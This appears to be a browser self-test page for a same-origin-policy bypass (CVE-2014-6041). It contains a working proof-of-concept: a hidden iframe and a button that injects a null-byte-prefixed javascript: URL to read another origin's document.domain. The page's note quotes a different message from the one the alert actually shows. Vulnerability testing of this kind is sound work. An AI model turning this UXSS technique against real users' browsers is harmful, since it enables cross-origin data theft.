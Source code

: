 ```yaml
---
layout: default
title: SOP Bypass - Testcase 9
permalink: /sop/new/9
---
```


# SOP Bypass - Testcase 9

Testing for SOP bypass using escape characters
<iframe height="0" width="0" name="CVE-2014-6041" src="https://web.archive.org/web/20180831120259if_/https://www.bing.com/" style="display:none;" data-ruffle-polyfilled=""></iframe>

<!-- Multiple buttons with different onclick events -->
<input type="button" id="btn_test" class="test" value="Run Test Case 1" onclick="window.open('\u0000javascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<!-- ... additional buttons for other test cases ... -->

**Note:**
If page loads popup and displays an alert box "Accessed Property of bing.com, your browser is vulnerable to SOP bypass."
